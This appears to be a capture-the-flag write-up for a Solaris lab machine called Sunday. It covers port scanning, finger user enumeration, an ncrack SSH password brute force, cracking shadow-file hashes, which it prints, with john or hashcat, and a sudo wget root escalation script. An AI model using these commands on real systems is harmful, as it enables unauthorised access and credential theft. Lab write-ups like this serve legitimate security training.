 ## Title

### Lab Details 

- Difficulty: Easy 
- Type: Solaris, Finger, User Enum, Password Brute, Priv Esc

#### Tasks

Q1: Which open TCP port is running the ```finger``` service?
 - nmap 10.10.10.76 -sT -A -T4 <!-- scanning for TCP -->
 
    ```
    ...
    PORT    STATE SERVICE VERSION
    79/tcp  open  finger?
    |_finger: No one logged on\x0D
    | fingerprint-strings: 
    |   GenericLines: 
    |     No one logged on
	...
    ```
  - nmap 10.10.10.76 -p- -A -T4 <!-- always good to scan full ports --> 
  
 
Q2: How many users can be found by enumerating the finger service? Considered as user if shown as pts.
  - Use finger-user-enum.pl perl script by pentestmonkey to enumerate for users 
  - Or Metasploit's module `auxiliary/scanner/finger/finger_users`
 -  https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum.pl
```
...
sammy@10.10.10.76: sammy           ???            ssh          <May  6 07:35> 10.10.14.68         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
...
``` 

Q3: What is the password for the sunny user on Sunday (The machine)?
- Found ssh port is 22022 and no other info on the user -> brute force
```
22022/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4 (protocol 2.0) 
```
- Used ncrack with rockyou.txt
```
ncrack -vv  --user sunny -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.76:22022

Starting Ncrack 0.7 ( http://ncrack.org ) at 2025-05-14 20:18 AEST

Discovered credentials on ssh://10.10.10.76:22022 'sunny' 'sunday'
```

Q4: What is the password for sammy 
 - A folder named backup can be found on (/) root folder 
 - A file named shadow.backup resides in the folder which contains sunny and sammy's SHA256 password hash
 - Can use john or hashcat to crack
 - hashcat will require both shadow.backup as well /etc/passwd and unshadow will need to be run against the files
 ```hashcat
    ##### Crack /etc/shadow 
    - Requires unshadow of /etc/passwd and /etc/shadow
    - Command: unshadow passwd shadow > hash
    - Command: hashcat -m 7400 hash /usr/share/wordlists/rockyou.txt

    Content of /etc/shadow 
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
 - John does not require unshadow to be run 
```
##### Brute forcing /etc/shadow
- john ./shadow.backup --wordlist=/usr/share/wordlists/rockyou.txt 
    /etc/shadow
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Q5: What is flag located in sammy's home directory 
 - cat user.txt

Q6: What is the full path of the binary that user sunny can run with sudo privileges?
 - /root/troll

Q7: What is the complete path of the binary that user sammy can run with sudo privileges?
 - /usr/bin/wget

Q8: Submit the flag located in root's home directory.
- https://gtfobins.github.io/gtfobins/wget/
- since sammy is able to run wget as sudo without password then we can attempt to escalate the privilege by using wget
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```


### Post Exploitation Note - Lesson Learned 

 - Always good to scan for all ports as `nmap -O -T4` or `nmap -sT -A -T4` does not scan for all ports which caused some ports to be missed during the initial enumeration.
 - As Q4 requires RCE for this machine and the first nmap only outputs 3 ports
```
map 10.10.10.76 -O -T4    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-14 19:30 AEST
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 44.37% done; ETC: 19:30 (0:00:16 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer
```

